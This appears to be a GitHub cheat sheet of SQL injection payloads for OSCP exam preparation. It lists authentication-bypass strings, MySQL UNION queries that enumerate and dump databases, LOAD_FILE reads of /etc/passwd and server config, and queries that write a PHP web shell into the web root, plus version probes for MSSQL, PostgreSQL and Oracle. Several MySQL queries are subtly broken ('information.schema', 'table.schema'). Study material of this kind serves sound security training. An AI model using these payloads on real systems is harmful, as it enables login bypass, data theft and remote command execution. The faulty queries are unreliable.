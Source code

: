 # SQLI

SQL Injection is a very common attack vector in the `OSCP` exam. You will most likely see atleast one box where it is the intended attack path. I would recommend to anyone that is unfamiliar with `SQL` to learn the language on a basic level first, and then understanding `SQLI` is way easier. With that being said the first thing you want to do is stuff the input fields with common `SQLI` cmds:

### Auth Bypass / SQLI Checker

```txt
';#---                   // List pulled from 0xsyr0's github.
admin' or '1'='1
' or '1'='1
" or "1"="1
" or "1"="1"--
" or "1"="1"/*
" or "1"="1"#
" or 1=1
" or 1=1 --
" or 1=1 -
" or 1=1--
" or 1=1/*
" or 1=1#
" or 1=1-
") or "1"="1
") or "1"="1"--
") or "1"="1"/*
") or "1"="1"#
") or ("1"="1
") or ("1"="1"--
") or ("1"="1"/*
") or ("1"="1"#
) or '1`='1-
```

### SQL Injection

After stuffing the input fields you should either obtain access to the system as admin or the first user in the database. If not, you might've received a success message or something like that telling you that the SQL server accepted your input. Before trying please remember that I am using `'` in this situation at the beginning of every `cmd` but this will change depending on which character worked for you in the previous steps. Lastly, it's important to recognize that each different type of `SQL` db will have its own injection techniques. Next, try these common injections:

#### MySQL

```txt
# Get number of columns
' ORDER BY 3--

# Get version, make shorter/longer depending on number of columns
' UNION SELECT 1, VERSION(), 3--

# Get DB name
' UNION SELECT 1,2, DATABASE()--

# Get table name
' UNION ALL SELECT 1,2, GROUP_CONCAT(table_name) FROM information.schema.tables WHERE table.schema="<DATABASE>"--

# Get column name
' UNION ALL SELECT 1,2, GROUP_CONCAT(column_name) FROM information.schema.columns WHERE table.schema="<DATABASE>" AND table.name="<TABLE>"--

# Data dump
' UNION ALL SELECT 1,2,GROUP_CONCAT(CONCAT_WS(':', col1, col2, col3) SEPARATOR ' | ') FROM <TABLE>--

# File read
' SELECT LOAD_FILE('/etc/passwd')

# Grab web config info
LOAD_FILE('/etc/httpd/conf/httpd.conf')

# Create webshell
' SELECT "<?php system($_GET['cmd']);?>" INTO OUTFILE "/var/www/html/<FILE>.php"--

OR

' UNION SELECT "<?php system($_GET['cmd']);?>", null, null, null, null INTO OUTFILE "/var/www/html/<FILE>.php" --
```

#### MSSQL

```txt
' UNION ALL SELECT @@VERSION, NULL--
```

#### PostgreSQL

```txt
' UNION SELECT VERSION(), NULL-- 
```

#### Oracle SQL

```txt
' UNION ALL SELECT banner, NULL FROM v$version-- 
```
